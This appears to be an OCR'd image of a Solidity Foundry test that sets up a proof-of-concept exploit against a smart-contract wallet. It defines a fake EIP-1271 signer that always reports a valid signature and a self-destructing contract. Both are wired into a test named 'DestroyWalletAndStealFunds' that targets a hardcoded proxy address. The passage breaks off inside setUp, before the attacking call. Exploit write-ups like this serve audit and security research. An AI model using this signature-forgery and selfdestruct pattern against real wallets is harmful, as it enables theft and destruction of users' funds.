     // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.13;

    import "forge-std/Test.sol";

    contract Enum {
        enum Operation {Call, DelegateCall}
    }
    interface SmartAccount {
        function execTransaction(
            Transaction memory _tx,
            uint256 batchId,
            FeeRefund memory refundInfo,
            bytes memory signatures
        ) external payable returns (bool success); 
        function getNonce(uint256 batchId) external view returns (uint256);
    }
    struct Transaction {
            address to;
            uint256 value;
            bytes data;
            Enum.Operation operation;
            uint256 targetTxGas;
        }
    struct FeeRefund {
            uint256 baseGas;
            uint256 gasPrice; //gasPrice or tokenGasPrice
            uint256 tokenGasPriceFactor;
            address gasToken;
            address payable refundReceiver;
        }
    contract FakeSigner {
        bytes4 internal constant EIP1271_MAGIC_VALUE = 0x20c13b0b;

        // Always return valid EIP1271_MAGIC_VALUE
        function isValidSignature(bytes memory data, bytes memory contractSignature) external returns (bytes4) {
            return EIP1271_MAGIC_VALUE;
        }
    }
    contract SelfDestructingContract {
        // All this does is self destruct and send funds to "to"
        function selfDestruct(address to) external {
            selfdestruct(payable(to));
        }
    }

    contract DestroyWalletAndStealFunds is Test {
        SmartAccount proxySmartAccount = SmartAccount(0x11dc228AB5BA253Acb58245E10ff129a6f281b09);
        address hacker = vm.addr(0x1337);
        SelfDestructingContract sdc;
        FakeSigner fs;
        function setUp() public {
            // Create self destruct contract
            sdc = new SelfDestructingContract();
            // Create fake signer
            fs = new FakeSigner();
